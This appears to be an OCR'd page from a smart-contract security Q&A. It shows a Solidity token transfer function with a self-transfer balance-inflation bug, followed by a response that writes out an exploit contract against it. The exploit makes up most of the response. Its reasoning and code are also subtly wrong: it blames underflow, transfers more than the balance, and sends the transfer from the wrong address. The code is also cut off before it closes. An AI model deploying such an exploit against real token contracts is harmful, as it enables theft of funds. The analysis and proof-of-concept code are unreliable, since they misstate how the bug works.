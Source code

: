 ```solidity
	function transfer(address to, uint256 value) external {
    	uint256 oldBalanceFrom = balances[msg.sender];
    	uint256 oldBalanceTo = balances[to];
 
    	uint256 newBalanceFrom = oldBalanceFrom - value;
    	balances[msg.sender] = newBalanceFrom;
 
    	uint256 newBalanceTo = oldBalanceTo + value;
    	balances[to] = newBalanceTo;
 
    	_updateCheckpoint(msg.sender, oldBalanceFrom, newBalanceFrom);
    	_updateCheckpoint(to, oldBalanceTo, newBalanceTo);
	}
 
	/// @dev Records the user's balance at this block number.
	/// @param user The address whose balance is updated.
	/// @param oldBalance The previous balance.
	/// @param newBalance The updated balance.
	function _updateCheckpoint(address user, uint256 oldBalance, uint256 newBalance) internal {
    	balancesAt[user][block.timestamp] = newBalance;
    	emit BalanceUpdated(user, oldBalance, newBalance);
	}
}
```

#### Response：

In order to exploit an issue in the transfer function, where users transferring tokens to themselves can cause an arbitrary increase in the number of tokens, a Solidity Proof of Concept (PoC) can be written to demonstrate this. This PoC will show how to artificially increase the balance by calling the transfer function with the sender's address as the recipient. In the provided contract, the transfer function neither checks if the sender is the same as the recipient, nor does it check for underflow in the balance.

Below is the Solidity PoC code exploiting the specified vulnerability:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

// Assuming that the SnapshotToken contract mentioned earlier already exists.

contract Exploit {
    SnapshotToken public tokenContract;

    // Initialize using the address of the vulnerability contract
    constructor(address _tokenAddress) {
        tokenContract = SnapshotToken(_tokenAddress);
    }

    // Function used to achieve balance inflation
    function exploit() public {
        // The attacker's address is msg.sender
        // Firstly, ensure that the attacker has some tokens that can exploit the overflow.
        tokenContract.buyToken{value: 1 ether}();

        // Obtain the attacker's current balance
        uint256 attackerBalance = tokenContract.balances(msg.sender);

        // Now calling the transfer function, the transfer amount exceeds the balance
        // Due to the lack of checking whether the sender and receiver are the same person, as well as appropriate underflow checks,
        // This will increase the attacker's token balance through and.
        tokenContract.transfer(msg.sender, attackerBalance + 1);
    }
```